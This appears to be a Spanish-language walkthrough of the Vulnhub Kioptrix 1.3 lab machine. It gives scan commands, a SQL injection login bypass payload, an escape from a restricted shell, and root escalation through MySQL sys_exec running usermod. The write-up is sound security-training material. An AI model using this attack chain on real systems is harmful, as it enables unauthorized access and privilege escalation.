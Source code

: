 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.3"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-13-4,25/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface eth0 -l
```
![1](https://user-images.githubusercontent.com/75953873/178128766-c1eb1f99-56e6-4449-a3f2-bf9345a59492.png)

IP host: `192.168.25.138`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.138
```
![2](https://user-images.githubusercontent.com/75953873/178128792-82993633-dc3c-4167-ab2c-4e0c05570d37.png)

Puertos abiertos: [22,80,139,445]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80,139,445 -A 192.168.25.138
```
![3](https://user-images.githubusercontent.com/75953873/178128892-5d15426d-7724-4b96-ac14-8fa749662bc6.png)

![3 2](https://user-images.githubusercontent.com/75953873/178128937-364e11ba-8b5a-475b-a4c3-f5713ebe4d66.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

URL: `http://192.168.25.138`

![4](https://user-images.githubusercontent.com/75953873/178128981-b955ab0e-8efa-4d7b-a4a2-9ab170f6c50c.png)

La enumeración de directorios y archivos con Dirb encuentra un directorio llamado `john`, pero esté no revela nada relevante.
```
dirb http://192.168.25.138
```
![5](https://user-images.githubusercontent.com/75953873/178129062-4b519854-bfa5-469c-82a6-346010347a17.png)

![6](https://user-images.githubusercontent.com/75953873/178129075-842d66d2-e997-45c6-8cce-84d712f3c0db.png)

- *Paso 4:* Inyección SQL manual.

En el panel de login se debe ingresar el usuario `john` y la contraseña `' or 1=1-- -`.

![7](https://user-images.githubusercontent.com/75953873/178129163-cf68f241-8cbb-4d11-ac2a-50263173b630.png)

- *Paso 5:* Conectarse al servidor SSH.
```
ssh -oHostKeyAlgorithms=+ssh-dss john@192.168.25.138 -l john
```

Usuario: `john`

Contraseña: `MyNameIsJohn`

![8](https://user-images.githubusercontent.com/75953873/178129218-e0862b3b-4d30-44b2-8352-cc0e39f5d10c.png)

La shell se ejecuta dentro de un intérprete de python por lo que saldremos de ella e ingresaremos al directorio raíz del servidor `/var/www`:
```
echo os.system('/bin/bash')
cd /www/var
cat checklogin.php
```
![9](https://user-images.githubusercontent.com/75953873/178129470-0903b88c-271e-4874-90a4-5fbcef300f1a.png)

- *Paso 5:* Iniciar sesión en el servidor MySQL.

Usuario: `root`

Contraseña: **sin contraseña**
```
mysql -u root -p
```
![10](https://user-images.githubusercontent.com/75953873/178129574-e42549f2-88dd-4a2b-8824-7bdce7f93d08.png)

El comando `usermod` otorgará a `john` al grupo de administradores (root).
```
select sys_exec('usermod -a -G admin john');
```
![11](https://user-images.githubusercontent.com/75953873/178129692-b62b22bc-5e6f-4611-8276-a9b38b75d4c7.png)

Por último, ejecutar `sudo su` para obtener una shell con privilegios e ingresar al directorio `/root`. La contraseña del root es la misma del servidor SSH.

![12](https://user-images.githubusercontent.com/75953873/178129723-9535e1cd-4441-4040-ae77-0711a3d604c0.png)

